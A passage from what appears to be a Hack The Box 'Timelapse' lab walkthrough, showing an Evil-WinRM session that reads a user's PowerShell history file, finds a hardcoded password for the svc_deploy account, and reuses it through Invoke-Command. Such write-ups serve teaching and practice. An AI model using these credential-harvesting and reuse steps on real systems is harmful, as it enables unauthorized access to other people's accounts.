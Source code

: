 <p align="center">
  <img src="/images/walkthroughs/hackthebox/timelapse/2_0_ps_history.png" width="90%"/>
</p>


Checking the _ConsoleHost_history.txt_ file we can see the credential object with the hardcoded credentials:

```bash
*Evil-WinRM* PS C:\Users\legacyy\Desktop> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

The previous set of commands might look scary, but in broad tems, it is like a sudo in linux. We see the session options first, then set the credential object (user and password to run command as that user) and then Invoke-Command. Let's run some recon commands with that method. I fwe have any issues we can use evil-winrm with the password:

```bash
Invoke-Command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/timelapse/2_1_whoami_remote.png" width="90%"/>
</p>
